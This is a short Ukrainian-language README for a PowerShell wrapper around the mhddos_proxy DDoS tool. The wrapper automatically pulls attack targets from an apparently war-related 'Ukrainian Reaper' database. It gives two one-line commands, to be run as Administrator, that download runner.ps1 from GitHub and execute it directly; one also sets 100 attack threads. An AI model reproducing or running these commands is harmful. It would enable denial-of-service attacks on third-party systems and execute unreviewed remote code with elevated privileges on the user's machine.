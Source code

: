 # mhddos_powershell

Скрипт автоматизує роботу mhddos_proxy, автоматично підтягує цілі з бази даних Українського женця. 

Вимоги:

  Скрипт потребує тільки встановленої Windows 7 або новішої версії. Встановлення додаткового ПЗ не потрібно.

Запуск (Команда виконується в терміналі PowerShell з правами Адміністратора):

```$ScriptBlock = [scriptblock]::Create((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/mErlin-sp/mhddos_powershell/master/runner.ps1')); Invoke-Command -ScriptBlock $ScriptBlock -ArgumentList ''```
  
Після --ArgumentList є можливість вказати будь-які параметри для mhddos_proxy. Наприклад, вкажемо кількість потоків 100:
  
```$ScriptBlock = [scriptblock]::Create((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/mErlin-sp/mhddos_powershell/master/runner.ps1')); Invoke-Command -ScriptBlock $ScriptBlock -ArgumentList '-t 100'```
  
